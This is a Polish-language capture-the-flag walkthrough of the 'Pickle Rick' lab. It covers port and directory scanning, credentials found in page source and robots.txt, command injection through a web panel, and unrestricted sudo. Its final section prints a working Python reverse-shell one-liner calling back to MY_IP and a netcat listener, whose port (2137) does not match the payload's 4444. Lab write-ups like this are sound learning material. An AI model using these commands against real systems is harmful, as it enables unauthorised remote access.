 # Pickle Rick

## Recon

Przeskanujmy porty dla aplikacji:

```
nmap -sS -T5 -vvvv -Pn -p- 10.10.149.242
```

Otwarte porty: 22 i 80

Wiemy też, że mamy do czynienia z systemem Ububntu.

Poszukajmy też podstron:

```
gobuster dir -u http://10.10.149.242/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64
```

W między czasie popatrzmy na stronę główną. W kodzie strony widzimy notkę: 
```
Note to self, remember username!

Username: R1ckRul3s
```

Go buster zakończył prace, znalazł folder `/assets` i `/server-status`, do którego nie mamy dostępu. Sprawdźmy więc ten pierwszy.

Włączone ma indeksowanie, widzimy pare plików, w tym 2 gify i 2 jpg, jeden znajdujący się na stronie głównej.

Sprawdźmy czy te obrazki nie mają ukrytej zawartości. No nie bardzo bym powiedział.

Szukajmy więc dalej, może nie foldery, a pliki są ukryte.

```
gobuster dir -u http://10.10.149.242/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -x .txt,.php,.html,.js
```

Znaleźliśmy pare plików, `login.php`, `portal.php`, `robots.txt`

Sprawdźmy `robots.txt`. Jego zawartość to wymowne "Wubbalubbadubdub"

`login.php` to formularz logowania, tylko nie mamy hasła. Szukajmy dalej.

`portal.php` przekierowuje nas do `login.php`, tak jakby potrzebowalibyśmy być zalogowani. Spróbujmy czegoś głupiego i sie zalogujmy.

Dziwny tekst z `robots.txt` okazał się być hasłem dla użytkownika R1ckRul3s, nice.

## Command Execution

Wylądowaliśmy na stronie "Command Panel" z formularzem, do innych zakładek nie mamy dostępu bo nie jesteśmy prawdziwym Rickiem.

Spróbujmy wykonać polecenie `whoami`. Dostaliśmy odpowiedź www-data. Sprawdźmy, czy znajdziemy tu podatność RCE albo podobną.

Polecenie `whoami; ls` wykonało się, odkrywając dodatkowe pliki: `Sup3rS3cretPickl3Ingred.txt`, `clue.txt`, `denied.php`. Sprawdźmy co zawierają.

Pierwszy zawiera pierwszy składnik potrzebny do uratowania Ricka. `clue.txt` to podpowiedź, aby szukać następnego składnika w plikach systemowych. A trzeci to podstrona do której nie ma dostępu, tak jak nazwa mówi.

Spróbujmy poszukać czegoś w systemie. Sprawdźmy na początek katalog `/home`. Są dwaj użytkownicy, "rick" i "ubuntu". Najpierw sprawdźmy ricka. Jest tam plik `second ingredients`. Tylko komenda `cat` jest zabroniona. Spróbujmy mniej oczywiste komendy, jak `nl`. To zadziałało i mamy drugi składnik.

Katalog `/home/ubuntu` jest pusty, więc zakładam, że ostatni składnik będzie w `/root`. Sprawdźmy poleceniem `sudo -l` co możemy uruchomić z podniesionymi uprawnieniami bez podawania hasła.

```
User www-data may run the following commands on ip-10-10-149-242:
    (ALL) NOPASSWD: ALL
```

Dziwne, można każdą jedną komendę uruchomić. Wyświetlmy więc zawartość `/root`. Znaleźliśmy plik `3rd.txt` i tam jest nasza odpowiedź.

## Reverse shell

Można też wytworzyć reverse shella. W jaki sposób?

Z racji że mamy do czynienia z Linuxem Ubuntu, sprawdźmy czy jest na nim zainstalowany Python, poleceniem `python3 -V`. Dostaliśmy: 

```
Python 3.8.10
```

Spróbujmy więc nawiązać połączenie. Użyjmy takiego payloadu:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MY_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

Wcześniej włączmy nasłuchiwanie na porcie 4444 na naszej maszynie:

```
nc -lvnp 2137
```

Wklejmy i wykonajmy payloada. Strona będzie wyglądać jakby się zawiesiła, ale gdy wrócimy do terminala, zobaczymy 

```
connect to [MY_IP] from (UNKNOWN) [10.10.149.242] 44870
www-data@ip-10-10-149-242:/var/www/html$
```

Można wykonać troche wygodniej te same kroki co wcześniej.

